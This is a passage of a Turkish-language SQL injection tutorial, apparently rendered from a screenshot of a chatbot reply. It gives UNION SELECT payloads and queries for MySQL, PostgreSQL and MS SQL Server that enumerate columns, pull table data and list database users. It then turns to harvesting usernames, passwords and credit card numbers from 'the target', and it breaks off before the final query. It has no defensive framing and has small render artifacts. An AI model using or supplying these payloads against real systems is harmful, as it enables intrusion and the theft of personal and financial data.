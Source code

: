 ```sql
sql
UNION SELECT null, null, null, group_concat(column_name) FROM information_schema.columns WHERE table_name = 'your_table_name' AND table_schema = 'your_database_name';
```
PostgreSQL:
PostgreSQL’de tablonun sütunlarını almak için:
```sql
sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name';
```
MS SQL Server:
MS SQL Server’da tablonun sütunlarını görmek için:
```sql
sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name';
```
3. Veritabanındaki Verileri Çekme
Bir tablonun yapılarını öğrendikten sonra, o tablodan veri çekmeye başlayabilirsin. Veritabanındaki verileri almak için aşağıdaki sorguları kullanabilirsin.
MySQL / MariaDB:
```sql
sql
UNION SELECT null, null, null, column_name FROM your_table_name;
```
PostgreSQL:
PostgreSQL’de tablodan veri çekmek için şu sorguyu kullanabilirsin:
```sql
sql
SELECT * FROM your_table_name LIMIT 10;
```
MS SQL Server:
MS SQL Server’da veri çekmek için:
```sql
sql
SELECT TOP 10 * FROM your_table_name;
```
4. Veritabanı Kullanıcıları ve İzinlerini Öğrenme
Veritabanındaki kullanıcılar ve izinlerle ilgili bilgi edinmek için aşağıdaki sorguları kullanabilirsin:
MySQL:
Veritabanı kullanıcı adı almak için:
```sql
sql
SELECT user();
```
PostgreSQL:
PostgreSQL’de kullanıcıları öğrenmek için:
```sql
sql
```
KopyalaDüzenle
```sql
SELECT usename FROM pg_user;
```
MS SQL Server:
MS SQL Server’da kullanıcı bilgilerini öğrenmek için:
```sql
sql
SELECT name FROM sys.syslogins;
```
5. Hassas Verileri Elde Etme
Eğer hedefinde hassas veriler varsa, örneğin kullanıcı adları, şifreler veya kredi kartı bilgileri gibi, bunları belirli tablolar üzerinden elde edebilirsin. Örneğin, çoğu veritabanında kullanıcı bilgilerini içeren users, accounts, customers gibi tablolar olabilir.
Bu tür veriler genellikle şu sütunları içerir:
username, password, email, credit_card gibi sütunlar.
Veri çekme sorgusunu şu şekilde yazabilirsin:
